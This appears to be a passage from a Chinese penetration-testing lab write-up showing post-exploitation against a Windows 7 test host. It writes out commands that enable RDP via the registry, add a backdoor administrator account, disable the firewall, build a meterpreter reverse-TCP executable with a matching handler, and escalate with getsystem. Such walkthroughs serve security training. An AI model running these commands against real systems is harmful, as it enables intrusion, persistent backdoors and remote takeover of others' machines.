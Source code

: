 查询已安装的软件及版本信息：`wmic product get name,version`
![](https://img-blog.csdnimg.cn/20210522182346361.png)
powershell 中可替代该命令的是 Get-WmiObject:
```powershell
Get-WmiObject -class win32_product | Select-Object -property name,version
```
查询进程及服务：`wmic process list brief`
![](https://img-blog.csdnimg.cn/20210525160806323.png)
安装软件信息：`run post/windows/gather/enum_applications`
![](https://img-blog.csdnimg.cn/20210525161215440.png)

#### 开启3389
首先查看一下当前用户的权限，尝试远程连接，查看一下3389端口开放情况
![](https://img-blog.csdnimg.cn/20210520184721303.png)
发现3389处于关闭状态，使用命令开启（关闭命令把如下0都换成1）
```bash
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```
![](https://img-blog.csdnimg.cn/20210520184901338.png)
然后添加用户连接3389
```bash
net user test bmth@123456 /add # 添加账户密码
net localgroup administrators test /add # 添加为管理员权限
net user test # 查询是否添加成功
```
![](https://img-blog.csdnimg.cn/20210520190241825.png)

但发现连不上3389，nmap扫描一下`nmap -v -p 3389 -n 192.168.81.136`
![](https://img-blog.csdnimg.cn/20210520185936110.png)
发现状态为filtered，查看win7，防火墙开启了阻止所有与未在允许程序列表中的程序的连接，设置了白名单，只能本地连接，这里尝试关闭防火墙
```bash
netsh advfirewall set allprofiles state off
```
![](https://img-blog.csdnimg.cn/20210520193138494.png)
成功关闭防火墙，那么就可以远程连接了
![](https://img-blog.csdnimg.cn/20210520193516914.png)
使用`netstat -an`查看开放端口
![](https://img-blog.csdnimg.cn/20210525155943606.png)
还可以使用msf开启3389端口，直接`run post/windows/manage/enable_rdp`
![](https://img-blog.csdnimg.cn/20210521113623632.png)
#### 主机密码收集
接下来我们尝试获取密码，首先使用msfvenom生成一个exe文件
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.81.135 LPORT=6666 -f exe > shell.exe
```
![](https://img-blog.csdnimg.cn/20210520200532336.png)
然后使用蚁剑运行程序，并使用msf
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.81.135
set lport 6666
run
```
![](https://img-blog.csdnimg.cn/20210520200711621.png)
这里提权直接`getsystem`，其实可以`systeminfo`查看当前补丁，然后在：[Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)，查找相关的exp
